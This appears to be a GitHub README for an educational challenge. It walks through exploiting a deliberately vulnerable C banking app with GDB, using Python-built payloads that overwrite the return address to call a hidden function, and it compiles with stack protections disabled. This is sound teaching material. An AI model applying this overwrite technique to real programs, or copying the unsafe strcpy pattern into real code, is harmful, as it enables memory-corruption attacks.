







## Overview
This repository contains a simple banking application in C designed to demonstrate a buffer overflow vulnerability. The application allows users to input their name and display a fixed balance. However, due to improper handling of user input, it is possible to trigger a hidden function that grants a large sum of money.
## Challange
The objective of this challenge is to exploit the buffer overflow vulnerability in the print_balance function to call the freeMoney function, which increases the user's balance by $1,000,000.
## Overflow Walkthrough
We are going to leverage the vulnerability in the [`strcpy`](https://www.geeksforgeeks.org/strcpy-in-c/) function, which is unsafe because it does not perform bounds checking on the destination buffer. This means that if the input exceeds the size of the buffer, it can overwrite adjacent memory, leading to undefined behavior, including potential exploitation.

To demonstrate this vulnerability, we will use [GDB (GNU Debugger)](https://en.wikipedia.org/wiki/GNU_Debugger), a powerful tool that allows us to inspect and control the execution of programs. GDB will enable us to set breakpoints, observe memory, and understand how the buffer overflow occurs.

**Start GDB with the Compiled Application**  
   Begin by running the command to start debugging the application:  
   ```
   gdb unsafe_bank_app
   ```

**Set Breakpoint**  
   Set a breakpoint at line 12, just after the `strcpy` call in the `print_balance` function:  
   ```exit
   break 12
   ```  
   This breakpoint will allow us to pause execution just after the unsafe copy operation, enabling us to inspect the state of the program before the overflow occurs.

**Run the Application with Your Name**  
   Execute the application with a name argument:  
   ```
   run Skip
   ```

**Check the Stack Pointer**  
   Inspect the stack pointer with the following command:  
   ```
   x/40x $rsp
   ```  
   Here, we can observe the contents of the stack and understand how the buffer is laid out in memory.
    

| Box Color            | Component                                       |Desc                 |
| ----------------- | ------------------------------------------------------------------ |--|
| White | Buffer | Where our input will be stored|
| Yellow | Padding  | Memory location we will need to fill with bytes to reach the return address.|
|  Green  |Return Adress | A pointer indicating where to continue execution after a function call. |

Our objective is to reach the return address in memory and overwrite it with the address of the `freeMoney` function.

**Test Buffer Overflow with A's**  
   Next, we will run the application with a payload of 128 A's to trigger the overflow:  
   ```
   run $(python3 -c 'print(128 * "A")')
   ```
**Check the Stack Pointer Again**  
   we will inspect the stack pointer once more:  
   ```
   x/40x $rsp
   ```
  

  We can see we filled the buffer with bunch of As (0x41s in Hex)

   Let's confinute the exection by running `continue` in `gdb`:
   


This shows that our input has affected the stack and led to a segmentation fault due to the overflow.

Now, let's proceed to overflow the buffer up to the return address.

**Fill the Padding and Return Address**  
  Now, we will run the application using a payload that includes padding represented by Bs, followed by Cs to overwrite the return address:
   ```
   run $(python3 -c 'print(128 * "A" + 8 * "B" + 8 * "C")')
   ```

**Check the Stack Pointer Again**  
   Inspect the stack pointer:  
   ```
   x/40x $rsp
   ```  
  


We can confirm that the padding has been successfully filled with Bs and the return address has been overwritten with Cs. Next, let's retrieve the memory address of the `freeMoney` function.


**Disassemble the `freeMoney` Function**  
   Check the disassembly of the `freeMoney` function:  
   ```
   disas freeMoney
   ```
  

We need the address that points to the beginning of the function, as highlighted in the photo.


**Get the Address and Convert Address to Little Endian**  
    Convert the address to [little-endian format](https://en.wikipedia.org/wiki/Endianness), which stores the least significant byte first. This arrangement is essential for constructing our payload correctly, ensuring the bytes are in the order the system expects during execution.

**Run the Final Payload**  
    Execute the application with the crafted payload:  
    ```
    run $(python3 -c 'print(128 * "A" + 8 * "B" + "\x89\x51\x55\x55\x55\x55\x00\x00")')
    ```

 **Check the Stack Pointer Again**  
    Finally, inspect the stack pointer one last time. 
```
x/40x $rsp
```
Here, we will confirm the state of the buffer and verify whether we successfully over written the return address with the `freeMoney` memory address.



**Continue the Execution**

Let's proceed with the execution and see the outcome.



Success! We have successfully triggered the freeMoney function!

## Try It Yourself

#### Clone the project
```bash
  git clone https://github.com/xSk1p/simple-buffer-overflow-in-c.git
```

#### Go to the project directory
```bash
  cd simple-buffer-overflow-in-c
```

#### Compile
To accurately simulate a buffer overflow, disable certain security features like stack canaries and non-executable stack. Use the following compilation flags when building your program:
```bash
  gcc -g -fno-stack-protector -z execstack -o unsafe_bank_app unsafe_bank_app.c
```

#### Run the app
```bash
  ./unsafe_bank_app <name>
```


## Note

This challenge is for educational purposes. Approach this topic with an understanding of ethical hacking.

For further reading on buffer overflows and related concepts, you may find the following resource helpful:

- [Buffer Overflow Basics](https://www.owasp.org/index.php/Buffer_Overflow)
- [Buffer Overflow Exploits](https://www.cs.usfca.edu/~ejung/courses/683/lectures/buffer.pdf)

## License

Licensed under MIT, see [LICENSE](./LICENSE.md)

